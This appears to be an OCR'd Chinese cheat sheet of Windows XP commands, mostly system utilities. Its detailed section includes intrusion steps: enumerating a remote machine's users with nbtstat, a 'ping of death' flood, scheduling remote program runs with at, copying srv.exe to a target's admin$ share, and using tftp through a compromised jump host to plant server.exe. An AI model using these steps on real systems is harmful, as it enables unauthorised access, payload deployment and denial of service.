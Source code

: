70. ntmsmgr.msc----移动存储管理器
71. ntmsoprq.msc---移动存储管理员操作请求
72. netstat -an----(TC)命令检查接口
73. syncapp--------创建一个公文包
74. sysedit--------系统配置编辑器
75. sigverif-------文件签名验证程序
76. ciadv.msc------索引服务程序
77. shrpubw--------创建共享文件夹
78. secpol.msc-----本地安全策略
79. syskey---------系统加密，一旦加密就不能解开，保护windows xp系统的双重密码
80. services.msc---本地服务设置
81. Sndvol32-------音量控制程序
82. sfc.exe--------系统文件检查器
83. sfc /scannow---windows文件保护
84. ciadv.msc------索引服务程序
85. tourstart------xp简介（安装完成后出现的漫游xp程序）
86. taskmgr--------任务管理器
87. eventvwr-------事件查看器
88. eudcedit-------造字程序
89. compmgmt.msc---计算机管理
90. packager-------对象包装程序
91. perfmon.msc----计算机性能监测程序
92. charmap--------启动字符映射表
93. cliconfg-------SQL SERVER 客户端网络实用程序
94. Clipbrd--------剪贴板查看器
95. conf-----------启动netmeeting
96. certmgr.msc----证书管理实用程序
97. regsvr32 /u *.dll----停止dll文件运行
98. regsvr32 /u zipfldr.dll------取消ZIP支持
99. cmd.exe--------CMD命令提示符

## 操作详解

nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
finger username @host 查看最近有哪些用户登陆
telnet ip 端口 远和登陆服务器,默认端口为23
open ip 连接到IP（属telnet登陆后的命令）
telnet 在本机上直接键入telnet 将进入本机的telnet
copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
用参数/e才可连目录下的子目录一起复制到目标地址下。
tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送